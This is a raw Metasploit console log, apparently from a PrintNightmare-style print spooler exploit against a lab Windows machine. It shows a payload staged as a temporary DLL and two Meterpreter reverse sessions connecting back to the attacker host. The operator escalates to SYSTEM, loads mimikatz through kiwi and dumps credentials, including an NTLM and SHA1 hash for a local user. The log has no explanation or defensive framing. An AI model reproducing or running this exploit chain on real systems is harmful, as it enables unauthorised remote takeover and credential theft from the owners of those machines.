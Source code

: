 ```
[*] Deleting printer dGJvF
[*] Adding printer dGJvF...
[*] Sending stage (200262 bytes) to 192.168.224.194
[*] Sending stage (200262 bytes) to 192.168.224.194
[+] Deleted C:\Users\test\AppData\Local\Temp\AqMVx.dll
[*] Meterpreter session 2 opened (192.168.224.128:8877 -> 192.168.224.194:56007) at 2021-08-11 14:10:56 -0500
[*] Meterpreter session 3 opened (192.168.224.128:8877 -> 192.168.224.194:56016) at 2021-08-11 14:10:57 -0500
[*] Deleting printer dGJvF

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeImpersonatePrivilege
SeTcbPrivilege

meterpreter > load kiwi
Loading extension kiwi...c
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1
--------  ------           ----                              ----
test      DESKTOP-O7MJD36  0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-O7MJD36$  WORKGROUP        (null)
test              DESKTOP-O7MJD36  (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
desktop-o7mjd36$  WORKGROUP        (null)
```